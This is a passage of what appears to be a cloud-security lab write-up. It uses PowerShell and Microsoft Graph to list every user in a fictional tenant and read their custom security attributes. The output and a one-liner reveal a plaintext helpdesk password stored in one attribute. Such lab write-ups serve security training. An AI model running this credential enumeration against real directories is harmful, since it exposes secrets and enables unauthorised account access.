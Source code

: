 # 4. Get Credentials with Microsoft.Graph



```powershell
# Install MgGrah
Install-Module Microsoft.Graph

# Connect to Microsoft Graph
Connect-MgGraph

# Retrieve all users
$allUsers = Get-MgUser -All

# Loop through all users and retrieve their custom security attributes
foreach ($user in $allUsers) {
    $userAttributes = Get-MgUser -UserId $user.Id -Property "customSecurityAttributes"
    
    # Display the additional properties of custom security attributes for each user
    Write-Host "User: $($user.UserPrincipalName)"
    $userAttributes.CustomSecurityAttributes.AdditionalProperties | Format-List
    Write-Host "---------------------------------------------"
}
```

This will return
```
...snip...

User: archive@megabigtech.com                                                                                                                                
Key   : Helpdesk                                                                                                                                             
Value : {[@odata.type, #microsoft.graph.customSecurityAttributeValue], [Password, *****!!]} 


...snip...
```


Or one-liner
```bash
(Get-MgUser -UserId "archive@megabigtech.com" -Property "customSecurityAttributes").CustomSecurityAttributes.AdditionalProperties | Format-List

Key   : Helpdesk
Value : {[@odata.type, #microsoft.graph.customSecurityAttributeValue], [Password, D4taS3cur1ty!!]}

```

## 4.1 Getting credentials with Select-Object
I attempted to get the same result using Select-Object query, but the result was not the same, unsure what was the difference. 
```
(Get-MgUser -UserId "archive@megabigtech.com" | Select-Object -Property *).AdditionalProperties
```
